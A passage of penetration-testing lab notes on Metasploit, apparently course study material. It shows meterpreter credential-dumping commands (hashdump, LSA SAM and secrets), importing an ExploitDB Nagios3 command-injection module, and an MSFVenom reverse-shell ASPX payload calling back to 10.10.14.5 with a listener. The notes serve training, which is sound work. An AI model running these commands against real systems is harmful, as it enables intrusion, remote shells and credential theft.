   ```shell
  # privesc

  hashdump
  # dump hashes

  lsa_dump_sam

  lsa_dump_secrets
  ```

## Writing and Importing Modules

* We can install custom exploits in Metasploit - ExploitDB offers exploits ready for MSF (we can use MSF tag to search).

  ```shell
  msfconsole

  search nagios
  # exploit not installed locally

  # in another tab
  searchsploit nagios3

  searchsploit -t Nagios3 --exclude=".py"
  # we need to get .rb file

  # download the .rb file
  # and paste it in the correct directory
  cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb

  msfconsole -m /usr/share/metasploit-framework/modules

  # back in msfconsole

  reload_all
  # reload all modules

  # now we can use the newly loaded exploit
  ```

## Introduction to MSFVenom

* MSFVenom is used to craft payloads for different target host architectures.

  ```shell
  nmap -sV -T4 -p- 10.10.10.5

  ftp 10.10.10.5
  # anon ftp access
  # it has aspnet_client

  msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
  # generates aspx payload
  # which can be uploaded
  # listener will get reverse shell if payload is triggered on web service

  msfconsole -q

  use multi/handler

  set LHOST 10.10.14.5
  ```